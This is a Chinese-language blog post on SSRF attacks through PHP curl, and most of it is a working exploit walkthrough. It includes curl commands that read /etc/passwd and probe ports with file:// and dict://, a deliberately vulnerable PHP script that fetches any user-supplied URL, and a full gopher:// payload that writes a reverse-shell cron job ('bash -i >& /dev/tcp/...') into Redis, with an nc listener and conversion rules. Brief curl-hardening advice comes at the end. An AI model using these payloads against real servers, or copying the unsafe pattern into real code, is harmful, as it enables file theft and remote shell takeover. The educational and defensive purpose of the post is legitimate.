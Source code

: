 ```yaml
---
layout: post

title: "php curl ssrf攻击"
date: 2017-04-12 22:44:01 +0800
modified: 2017-07-24 16:47:48 +0800
image: true

categories: php
tags: [php, ssrf, curl, 网络安全]
---
```


## 什么是 SSRF  [^1]
>SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
>一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

### 三个使用`curl`进行`ssrf`的示例 [^2]

```bash
# 利用file协议查看文件
curl -v 'file:///etc/passwd'

# 利用dict探测端口
curl -v 'dict://127.0.0.1:22'
curl -v 'dict://127.0.0.1:6379/info'

# 利用gopher协议反弹shell
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$56%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

漏洞代码 **example.php**（ 未做任何SSRF防御 ）
```php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url);
```

### **file**

执行 `http://localhost/example.php?url=file:///etc/passwd`, 结果如下,打印文件内容

![passwd info]({{ site.url }}/assets/images/201704/12-01.png)

### **dict**

执行 `http://localhost/example.php?url=dict://127.0.0.1:22`, 结果如下, 现实端口信息

![dict info]({{ site.url }}/assets/images/201704/12-02.png)

### **gopher**

>Gopher是一个互联网上使用的分布型的文件搜集获取网络协议。 [^3]

`redis反弹shell`代码如下:
>gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a

转译后的 **攻击脚本**
```
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$56



*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1





*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
*1
$4
quit
```
执行后, 在redis中查看
```bash
127.0.0.1:6379> key *
(error) ERR unknown command 'key'
127.0.0.1:6379> keys *
1) "msg"
2) "numbers"
3) "1"
127.0.0.1:6379> get 1
"\r\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n"
127.0.0.1:6379>
```
使用 `nc` 监听查看 2333端口反馈信息 [^4]
```bash
$ nc -lvv 2333                                                            1 ↵
Listening on [0.0.0.0] (family 0, port 2333)
```

使用说明:
>gopher协议使用方法：gopher://ip:port/_payload

**gopher转换规则** 如下：

- 如果`第一个字符`是 **>** 或者 **<** 那么丢弃该行字符串，表示请求和返回的时间。
- 如果`前3个字符`是+OK 那么`丢弃`该行字符串，表示返回的字符串。
- 将`\r`字符串替换成`%0d%0a`
- 空白行替换为%0a


## curl安全

1. 限制只支持HTTPS、HTTP协议

    在 `curl_setopt`中添加 `curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);`

    则 **file**,**dict**,**gopher** 等其他协议将被过滤, 可以阻止一些ssrf.

1. 禁止30x跳转 (默认关闭)

    在 `curl_setopt`中添加 `curl_setopt($ch, CURLOPT_FOLLOWLOCATION, False);`


>原文: [JoyChou - SSRF in PHP](http://joychou.org/index.php/web/phpssrf.html)

---
### 更多阅读
- [SSRF](https://hxer.github.io/WebSecurity/ssrf.html)
- [ssrf proxy](https://bcoles.github.io/ssrf_proxy/)
- [Server Side Request Forgery (SSRF)](http://niiconsulting.com/checkmate/2015/04/server-side-request-forgery-ssrf/)
- [What is the Server Side Request Forgery Vulnerability & How to Prevent It?](https://www.netsparker.com/blog/web-security/server-side-request-forgery-vulnerability-ssrf/)
- [利用 gopher 协议拓展攻击面](https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)
- [SSRF漏洞的利用与学习](http://uknowsec.cn/posts/notes/SSRF%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0.html)

---
### 索引

[^1]: [SSRF](https://hxer.github.io/WebSecurity/ssrf.html)
[^2]: [JoyChou - SSRF in PHP](http://joychou.org/index.php/web/phpssrf.html)
[^3]: [Gopher (protocol)](https://en.wikipedia.org/wiki/Gopher_(protocol))
[^4]: [利用 gopher 协议拓展攻击面](https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)
